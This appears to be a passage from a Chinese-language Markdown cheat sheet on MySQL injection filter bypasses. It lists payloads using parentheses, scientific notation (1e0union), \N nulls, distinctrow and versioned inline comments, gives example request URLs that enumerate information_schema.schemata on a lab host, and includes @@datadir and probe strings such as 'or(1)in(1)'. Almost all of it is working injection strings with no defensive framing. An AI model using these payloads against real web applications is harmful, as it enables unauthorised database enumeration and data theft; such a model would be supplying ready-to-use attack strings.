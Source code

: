     ```
* ()
    ```
    select 1,2,3 from(test)
    ```
* 科学技术法
    ```
    select * from test where id=1e0union select 1,2,3
    ```

## 混合bypass
```
http://10.100.12.6:8008/?id=\Nunion%20select%20\N,`schema_name`from%20information_schema.schemata
http://10.100.12.6:8008/?id=1%20union%20distinctrow%20select%201,id%20from%20TestDB.TestTables
http://10.100.12.6:8008/?id=1%20/*!union%20all*/%23%0aselect%201,2
```

## 特殊函数
| 函数 | 功能 |
| - | - |
| @@datadir | 列出mysql目录 |

## 探测语句
```
id=1 or(1)in(1)
id=1 and true
```